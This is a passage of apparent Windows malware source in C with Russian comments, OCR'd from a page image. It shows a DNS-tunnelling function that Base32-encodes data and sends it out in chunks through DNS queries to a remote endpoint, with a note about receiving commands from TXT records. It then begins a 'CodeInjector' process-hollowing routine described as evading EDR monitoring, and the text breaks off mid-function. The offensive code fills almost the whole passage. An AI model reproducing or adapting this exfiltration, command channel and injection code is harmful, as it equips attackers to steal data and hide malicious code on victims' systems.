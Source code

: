     strcpy_s(pChannel->RemoteEndpoint, templateLen, dnsTemplate);
    
    return TRUE;
}

// Отправка данных через DNS-туннель
BOOL SendDataViaDNS(PCOVERT_CHANNEL pChannel, BYTE* pData, DWORD dwSize) {
    // Кодируем данные в Base32 для использования в DNS
    CHAR base32Data[512] = {0};
    Encode_Base32(pData, dwSize, base32Data, sizeof(base32Data));
    
    // Разбиваем данные на части, допустимые для DNS запросов
    // (до 63 байт на метку, до 253 байт всего)
    const DWORD MAX_LABEL_SIZE = 60;
    CHAR dnsQuery[512];
    CHAR cmdType[4] = "dat"; // dat = данные, cmd = команда, etc.
    
    DWORD offset = 0;
    DWORD chunkSize = 0;
    while (offset < strlen(base32Data)) {
        chunkSize = min(MAX_LABEL_SIZE, strlen(base32Data) - offset);
        CHAR chunk[64] = {0};
        memcpy(chunk, base32Data + offset, chunkSize);
        
        // Формируем DNS запрос
        sprintf_s(dnsQuery, sizeof(dnsQuery), pChannel->RemoteEndpoint, 
                 cmdType, chunk);
        
        // Отправляем DNS запрос через нативные API
        PDNS_RECORD pDnsRecord = NULL;
        DNS_STATUS status = DnsQuery_A(dnsQuery, DNS_TYPE_A, 
                                     DNS_QUERY_STANDARD, NULL, 
                                     &pDnsRecord, NULL);
        
        if (status != ERROR_SUCCESS) {
            return FALSE;
        }
        
        // Обрабатываем ответ (получаем команды из TXT записей)
        if (pDnsRecord) {
            // Обработка полученных команд...
            DnsRecordListFree(pDnsRecord, DnsFreeRecordList);
        }
        
        offset += chunkSize;
        Sleep(50); // Небольшая пауза между запросами
    }
    
    return TRUE;
}

5. CodeInjector — Модуль внедрения кода

// Современный Process Hollowing с обходом EDR-мониторинга
BOOL ProcessHollowing(LPCWSTR lpTargetProcess, LPVOID pPayload, SIZE_T payloadSize) {
    STARTUPINFOW si = { sizeof(STARTUPINFOW) };
    PROCESS_INFORMATION pi;
    CONTEXT ctx;
    